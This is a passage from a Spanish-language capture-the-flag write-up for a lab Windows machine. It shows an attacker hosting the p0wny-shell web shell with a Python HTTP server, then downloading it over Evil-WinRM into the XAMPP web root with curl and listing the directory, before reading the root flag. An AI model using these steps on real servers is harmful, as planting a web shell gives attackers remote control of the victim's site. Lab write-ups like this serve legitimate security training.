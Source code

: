 - Podemos añadir y escribir en la carpeta si queremos ganar acceso rápido lo que podemos hacer es subir el <https://github.com/flozz/p0wny-shell> .

```bash
➜  p0wny-shell git:(master) python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.241 - - [11/May/2024 19:12:01] "GET /shell.php HTTP/1.1" 200 -
```

```bash
*Evil-WinRM* PS C:\xampp\htdocs> curl -o shell.php http://10.10.14.71:80/shell.php
*Evil-WinRM* PS C:\xampp\htdocs> dir


    Directory: C:\xampp\htdocs


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/22/2023  10:19 PM                bin
d-----       10/22/2023  11:47 PM                config
d-----       10/22/2023  10:33 PM                default
d-----       10/22/2023  10:19 PM                installer
d-----       10/22/2023  10:32 PM                logs
d-----       10/22/2023  10:19 PM                plugins
d-----       10/22/2023  10:20 PM                program
d-----       10/22/2023  10:20 PM                skins
d-----       10/22/2023  10:19 PM                SQL
d-----        5/12/2024  12:41 AM                temp
d-----       10/22/2023  10:20 PM                vendor
-a----       10/16/2023  12:23 PM           2553 .htaccess
-a----       10/16/2023  12:23 PM         211743 CHANGELOG.md
-a----       10/16/2023  12:23 PM            994 composer.json
-a----       10/16/2023  12:23 PM           1086 composer.json-dist
-a----       10/16/2023  12:23 PM          56279 composer.lock
-a----       10/16/2023  12:23 PM          11199 index.php
-a----       10/16/2023  12:23 PM          12661 INSTALL
-a----       10/16/2023  12:23 PM          35147 LICENSE
-a----       10/16/2023  12:23 PM           3853 README.md
-a----       10/16/2023  12:23 PM            967 SECURITY.md
-a----        5/12/2024   1:12 AM          20321 shell.php
-a----       10/16/2023  12:23 PM           4657 UPGRADING


*Evil-WinRM* PS C:\xampp\htdocs>
```

## root.txt

- Ya podemos leer la flag.

<p align="center">